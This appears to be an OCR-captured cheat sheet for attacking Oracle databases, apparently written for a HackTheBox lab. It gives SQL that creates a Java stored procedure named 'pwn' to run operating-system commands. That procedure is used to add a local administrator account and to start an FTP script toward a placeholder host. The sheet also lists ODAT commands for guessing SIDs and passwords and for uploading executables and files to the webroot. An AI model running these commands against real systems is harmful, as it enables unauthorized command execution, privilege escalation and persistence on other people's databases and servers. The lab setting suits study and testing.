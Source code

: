 Java code:
```sql
CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "pwn" AS
import java.lang.*;
import java.io.*;
 
public class pwn
{
 public static void cmd (String command) throws IOException
 {
     Runtime.getRuntime().exec(command);
 }
};
/
```

Create procedure:
```sql
CREATE OR REPLACE PROCEDURE pwn_cmd (p_command IN VARCHAR2)
AS LANGUAGE JAVA
NAME 'pwn.cmd (java.lang.String)';
/

```

Run command:
```sql
exec pwn_cmd('net user trevelyn trevelyn /add');
exec pwn_cmd('net localgroup Administrators trevelyn /add');
exec pwn_cmd('cmd.exe /c echo open X.X.X.X > C:\ftp.txt'); 
```

### Tools

- Oracle Database Attack Tool (ODAT) <https://github.com/quentinhardy/odat>
    ```
    All checks:
    ./odat.py all -s 10.10.10.82 -p 1521
    ./odat.py all -s 10.10.10.82 -d XE -U scott -P tiger


    Gusss SID: 
    ./odat.py sidguesser -s 10.10.10.82

    Guess passwords:
    ./odat.py passwordguesser -d XE -s 10.10.10.82 -p 1521 --accounts-file /root/HTB/tools/db/odat/accounts/accounts.txt

    Guess login: 
    use admin/oracle/oracle_login

    Upload file:
    ./odat.py utlfile -d XE -s 10.10.10.82 -p 1521 -U scott -P tiger --sysdba --putFile c:/ writeup.exe ~/HTB/silo/writeup.exe
    ./odat.py dbmsxslprocessor -d XE -s 10.10.10.82 -p 1521 -U scott -P tiger --putFile "c:\\inetpub\\wwwroot" "File-Test.txt" "/tmp/File-Test.txt"
